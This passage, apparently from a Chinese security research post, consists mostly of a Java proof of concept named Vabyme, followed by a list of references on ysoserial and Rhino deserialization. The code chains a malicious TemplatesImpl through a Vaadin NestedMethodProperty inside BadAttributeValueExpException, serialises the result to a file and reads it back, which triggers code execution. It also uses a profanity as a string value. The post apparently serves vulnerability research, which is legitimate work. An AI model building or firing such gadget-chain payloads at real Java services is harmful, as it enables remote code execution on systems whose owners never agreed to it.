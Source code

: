 ```java
                    TemplatesImpl.getObjectPropertyValue()
 */
public class Vabyme {
    public static void main(String[] args) throws Exception {
        Object tmpl= SerializeUtil.generateTemplatesImpl();
        PropertysetItem va=new PropertysetItem();
        NestedMethodProperty Nes=new NestedMethodProperty(tmpl,"outputProperties");

        va.addItemProperty("Yasx1",Nes);

        BadAttributeValueExpException bad=new BadAttributeValueExpException("fuck");
        SerializeUtil.setFieldValue(bad,"val",va);
        SerializeUtil.writeObjectToFile(bad,"Va");
        Object o=SerializeUtil.readFileObject("Va");
       /* SerializeUtil.writeObjectToFile(va,"Va");
        Object o=SerializeUtil.readFileObject("Va");
        o.toString();*/
    }
}
```





























# 参考

https://paper.seebug.org/1187/#_1

https://su18.org/post/ysoserial-su18-3/#%E6%94%BB%E5%87%BB%E6%9E%84%E9%80%A0-3

https://www.yaowendao.com/2018/02/24/Mozilla%20Rhino%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9EPOC%E5%88%86%E6%9E%90/
